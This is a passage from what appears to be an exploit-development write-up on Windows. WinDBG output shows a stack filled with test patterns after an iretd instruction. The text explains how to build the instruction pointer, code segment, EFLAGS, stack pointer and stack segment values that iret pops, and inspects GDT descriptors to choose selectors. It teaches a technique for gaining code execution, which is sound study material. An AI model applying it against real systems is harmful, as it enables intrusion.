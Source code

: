 ```
00000000`10000f0d 58              pop     rax
0:000> 
00000000`10000f0e 58              pop     rax
0:000> 
00000000`10000f0f cf              iretd
0:000> dd rsp
00000000`005eeb50  41414141 42424242 43434343 44444444
00000000`005eeb60  45454545 41414141 41414141 41414141
```

At this point, we have to do some digging on how `iret` works to see if we can craft the stack in a way that would let us gain (custom-) code execution. The `iret` instruction is used to return control from an exception or interrupt handler and is expecting the following values on the stack (very good [article](https://jamesmolloy.co.uk/tutorial_html/10.-User%20Mode.html) on this topic):

```
- new instruction pointer
- new code segment selector (CS)
- new value of EFLAGS register 
- new stack pointer
- new stack segment selector (SS)
```

As for the instruction pointer and stack pointer we could just point them into our heap buffer since we control a large part of it. The EFLAGS register we can get from debugging and then attempt to use the same value. This leaves us with CS and SS which is a bit tricky. CS and SS are used to index into the Global Descriptor Table (GDT) which has descriptors for kernel code/data and user code/data. Using WinDBG as a kernel debugger we can see which indices match which descriptor:

```
0: kd> dd @gdtr
fffff807`39e95fb0  00000000 00000000 00000000 00000000
fffff807`39e95fc0  00000000 00209b00 00000000 00409300
fffff807`39e95fd0  0000ffff 00cffb00 0000ffff 00cff300
fffff807`39e95fe0  00000000 0020fb00 00000000 00000000
fffff807`39e95ff0  40000067 39008be9 fffff807 00000000
fffff807`39e96000  00003c00 0040f300 00000000 00000000
fffff807`39e96010  00000000 00000000 00000000 00000000
```

The first 16 bytes are reserved, following those we can see that there are some values at offset 0x10 and 0x18:

```
0: kd> dg 0x10
                                                    P Si Gr Pr Lo
Sel        Base              Limit          Type    l ze an es ng Flags
---- ----------------- ----------------- ---------- - -- -- -- -- --------
0010 00000000`00000000 00000000`00000000 Code RE Ac 0 Nb By P  Lo 0000029b
0: kd> dg 0x18
                                                    P Si Gr Pr Lo
Sel        Base              Limit          Type    l ze an es ng Flags
---- ----------------- ----------------- ---------- - -- -- -- -- --------
0018 00000000`00000000 00000000`00000000 Data RW Ac 0 Bg By P  Nl 00000493
```
